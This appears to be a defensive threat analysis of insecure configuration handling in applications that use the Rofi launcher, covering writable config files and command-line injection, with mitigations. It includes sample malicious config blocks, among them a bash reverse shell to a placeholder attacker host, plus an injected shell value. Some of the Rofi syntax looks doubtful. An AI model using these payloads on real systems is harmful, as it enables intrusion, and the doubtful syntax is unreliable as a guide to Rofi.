 ## Deep Analysis of Attack Tree Path: Discover Insecure Configuration Handling [CRITICAL]

This analysis delves into the "Discover Insecure Configuration Handling" attack tree path for an application utilizing Rofi. We will break down each sub-node, exploring the attack vectors, attacker actions, potential impact, and crucial mitigation strategies for the development team.

**Overall Criticality:** CRITICAL

The "Discover Insecure Configuration Handling" node is marked as CRITICAL because successful exploitation of these vulnerabilities allows an attacker to fundamentally control the behavior of Rofi within the application's context. This can lead to arbitrary code execution, privilege escalation, data exfiltration, and complete compromise of the application's security.

**Sub-Node 1: Modify Config File (Insufficient Permissions) HIGH RISK**

* **Attack Vector:** The application stores or generates Rofi configuration files (typically `config.rasi`) with permissions that allow modification by unauthorized users. This means users other than the intended owner (usually the user running the application) have write access to this file.

* **Attacker Action:** An attacker who gains write access to the Rofi configuration file can manipulate it to execute malicious commands when Rofi is invoked by the application. This can be achieved through various Rofi configuration options:

    * **Custom Modes:** Rofi allows defining custom modes using scripts. An attacker can inject a malicious script path into a custom mode definition. When the application triggers this mode, the attacker's script will execute with the privileges of the application.
        * **Example:** Modifying the `config.rasi` to include:
          ```rasi
          configuration {
              modi: "calc,ssh,malicious_mode:/path/to/attacker_script.sh";
          }
          ```
          If the application later invokes Rofi with the `malicious_mode`, the attacker's script will run.
    * **Script Execution in Existing Modes:** Even within standard modes, Rofi can execute scripts. An attacker might modify existing mode configurations to trigger malicious scripts.
        * **Example:**  Modifying the `ssh` mode to execute a script after a successful connection:
          ```rasi
          configuration {
              ssh-client: "ssh -X {host} && /path/to/attacker_script.sh";
          }
          ```
    * **Keybindings and Actions:** Attackers can redefine keybindings to execute arbitrary commands.
        * **Example:**  Mapping a common key combination to execute a reverse shell:
          ```rasi
          configuration {
              kb-custom-1: "Alt+p,exec:/bin/bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1";
          }
          ```
    * **Theme Manipulation (Indirect):** While less direct, an attacker could manipulate the theme file referenced in the configuration to execute scripts if the theme rendering process has vulnerabilities.

* **Potential Impact:**

    * **Arbitrary Code Execution:** The attacker can execute any command with the privileges of the user running the application.
    * **Privilege Escalation:** If the application runs with elevated privileges (e.g., root), the attacker can gain those privileges.
    * **Data Exfiltration:** The attacker can steal sensitive data accessible to the application.
    * **System Compromise:** In severe cases, the attacker can gain complete control over the system.
    * **Denial of Service:** The attacker could modify the configuration to make Rofi unusable, disrupting the application's functionality.

* **Mitigation Strategies:**

    * **Principle of Least Privilege:** Ensure the Rofi configuration file is owned by the user running the application and has restricted permissions (e.g., `chmod 600 config.rasi`). No other users should have write access.
    * **Configuration File Location:** Store the configuration file in a secure location that is not easily accessible or guessable by attackers.
    * **Immutable Configuration:** If the configuration is static, consider making the file read-only after creation.
    * **Input Validation (for generated configurations):** If the application generates the Rofi configuration file, rigorously validate any input used in its creation to prevent injection of malicious content.
    * **Regular Security Audits:** Periodically review the permissions and content of the Rofi configuration file.
    * **Security Context:** Ensure the application runs with the minimum necessary privileges to limit the impact of a successful attack.
    * **Consider Alternatives:** If possible, explore alternative methods of configuring Rofi that don't involve storing the entire configuration in a modifiable file, such as passing configurations directly via command-line arguments (with proper sanitization).

**Sub-Node 2: Inject via Command-Line Arguments HIGH RISK**

* **Attack Vector:** The application constructs Rofi command-line arguments dynamically based on internal logic or potentially user input without proper sanitization. This allows an attacker to influence the arguments passed to the `rofi` executable.

* **Attacker Action:** The attacker identifies how the application constructs the Rofi command and injects malicious options or commands directly into the invocation. This can be achieved through various means:

    * **Exploiting Input Fields:** If the application takes user input that is used to construct the Rofi command, an attacker can craft malicious input.
        * **Example:** If the application allows users to search for applications and uses that input in the `rofi -show <input>` command, an attacker could input `; /path/to/attacker_script.sh` to execute their script.
    * **Manipulating Internal Logic:** If the command construction relies on internal logic with vulnerabilities, an attacker might be able to trigger a state where malicious arguments are included.
    * **Environment Variable Injection:** In some cases, attackers might be able to manipulate environment variables that are used in the command construction.

* **Examples of Malicious Injections:**

    * **Executing Arbitrary Commands:** Injecting shell commands directly into the arguments.
        * **Example:** `rofi -show run -run-command "xterm -e /path/to/attacker_script.sh"`
    * **Redirecting Output:** Redirecting Rofi's output to a file controlled by the attacker.
        * **Example:** `rofi -show run > /tmp/attacker_file` (This could potentially leak sensitive information displayed by Rofi).
    * **Specifying Malicious Configuration Files:** Forcing Rofi to load a configuration file controlled by the attacker.
        * **Example:** `rofi -config /path/to/attacker_config.rasi`
    * **Using `-combi-modi` with Malicious Scripts:** If the application uses `-combi-modi`, an attacker could inject a malicious script path.
    * **Exploiting Unintended Behavior of Flags:**  Carefully crafted combinations of Rofi flags might lead to unexpected and exploitable behavior.

* **Potential Impact:**

    * **Arbitrary Code Execution:** Similar to the config file manipulation, attackers can execute arbitrary commands.
    * **Data Exfiltration:**  Attackers can redirect output or execute commands to steal data.
    * **Denial of Service:**  Attackers can inject commands that crash Rofi or the application.
    * **Bypassing Security Measures:** If the application has other security measures, command injection might allow attackers to bypass them.

* **Mitigation Strategies:**

    * **Strict Input Sanitization:**  Thoroughly sanitize all user input that is used to construct the Rofi command. Use whitelisting and avoid blacklisting.
    * **Parameterized Commands:**  If possible, use parameterized command execution to prevent injection. However, this might be challenging with external executables like `rofi`.
    * **Avoid Dynamic Command Construction:** Minimize the dynamic construction of Rofi commands. If possible, use predefined command templates.
    * **Escaping Special Characters:**  Properly escape shell special characters in any dynamically generated parts of the command. Be aware of context-specific escaping requirements.
    * **Principle of Least Privilege:** Ensure the application runs with the minimum necessary privileges to limit the impact of a successful attack.
    * **Code Review:** Conduct thorough code reviews to identify potential command injection vulnerabilities. Pay close attention to sections where Rofi commands are constructed.
    * **Security Auditing:** Regularly audit the application's codebase for command injection vulnerabilities.
    * **Consider Alternatives:** If the complexity of sanitizing inputs becomes too high, consider alternative ways to achieve the desired functionality without relying on dynamic command construction.

**Cross-Cutting Considerations for Both Sub-Nodes:**

* **Secure Development Practices:** Implement secure coding practices throughout the development lifecycle.
* **Regular Security Testing:** Perform penetration testing and vulnerability scanning to identify weaknesses.
* **Dependency Management:** Keep Rofi and any other dependencies up-to-date with the latest security patches.
* **Error Handling:** Implement robust error handling to prevent sensitive information from being revealed in error messages.
* **Logging and Monitoring:** Implement logging and monitoring to detect suspicious activity related to Rofi execution.

**Conclusion:**

The "Discover Insecure Configuration Handling" attack tree path presents significant security risks for applications using Rofi. Both modifying the configuration file with insufficient permissions and injecting malicious command-line arguments can lead to severe consequences, including arbitrary code execution and system compromise. The development team must prioritize implementing the recommended mitigation strategies to secure the application and protect against these threats. A layered security approach, combining secure coding practices, thorough input validation, and the principle of least privilege, is crucial for mitigating these risks effectively.
